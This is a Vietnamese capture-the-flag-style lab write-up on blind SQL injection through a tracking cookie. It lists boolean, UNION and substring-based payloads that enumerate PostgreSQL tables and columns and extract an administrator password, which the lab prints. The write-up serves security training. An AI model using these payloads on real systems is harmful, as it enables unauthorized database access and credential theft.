

# Lab: Blind SQL injection with conditional responses

## Yêu cầu

Đăng nhập với user `administrator`.

## 1. Phát hiện SQLi

Trong phần cookie có `TrackingId`, nên thử kiểm tra với các payload sau:

```text
TrackingId=KWSc767ibkMLfDRw'+and+'1'='1
// Hiện: Welcome back!

TrackingId=KWSc767ibkMLfDRw'+and+'1'='2
// Không hiện gì lạ
```

Kết luận: tồn tại Blind SQLi.

## 2. Xác định số cột

```text
TrackingId=KWSc767ibkMLfDRw'+order+by+1--
// Valid

TrackingId=KWSc767ibkMLfDRw'+order+by+2--
// Không xuất hiện `Welcome back!`
```

Kết luận: truy vấn chỉ trả về 1 cột.

```text
'+union+select+'a'--
// Valid, cột nhận string

'+union+select+version()--
// Hiển thị: PostgreSQL
```

## 3. Khai thác bằng Intruder

Target phản hồi được xác định bằng chuỗi `Welcome back!`.

### 3.1. Đếm bảng trong schema `public`

```text
'+and+(select+count(tablename)+from+pg_tables+where+schemaname='public')=0--
// Đếm số bảng trong schema `public`
```

### 3.2. Xác định tên bảng đầu tiên

```text
'+and+length((select+tablename+from+pg_tables+where+schemaname='public'+limit+1))=0--
// Đếm độ dài tên bảng đầu tiên trong schema `public`

'+and+substring((select+tablename+from+pg_tables+where+schemaname='public'+limit+1),$1$,1)='$0$'--
// Xác định tên bảng đầu tiên là `users`
```

### 3.3. Đếm và dò các cột của bảng `users`

```text
'+and+(select+count(column_name)+from+information_schema.columns+where+table_name='users')=0--
// Đếm số cột của bảng `users`

'+and+length((select+column_name+from+information_schema.columns+where+table_name='users'+limit+1))=0--
// Đếm độ dài cột đầu tiên của bảng `users`

'+and+substring((select+column_name+from+information_schema.columns+where+table_name='users'+limit+1),$1$,1)='$0$'--
// Xác định cột đầu tiên là `username`

'+and+length((select+column_name+from+information_schema.columns+where+table_name='users'+limit+1+offset+1))=0--
// Đếm độ dài cột thứ 2 của bảng `users`

'+and+substring((select+column_name+from+information_schema.columns+where+table_name='users'+limit+1+offset+1),$1$,1)='$0$'--
// Xác định cột thứ 2 là `password`

'+and+length((select+column_name+from+information_schema.columns+where+table_name='users'+limit+1+offset+2))=0--
// Đếm độ dài cột thứ 3 của bảng `users`

'+and+substring((select+column_name+from+information_schema.columns+where+table_name='users'+limit+1+offset+2),$1$,1)='$0$'--
// Xác định cột thứ 3 là `email`
```

### 3.4. Dò mật khẩu administrator

## 4. Lấy mật khẩu administrator

```text
'+and+length((select+password+from+users+where+username='administrator'))=20--
// Độ dài password của administrator là 20

'+and+substring((select+password+from+users+where+username='administrator'),$1$,1)='$a$'--
```

Kết luận: password của administrator là `qmwt4y7ioxu74rxzo8o9`.


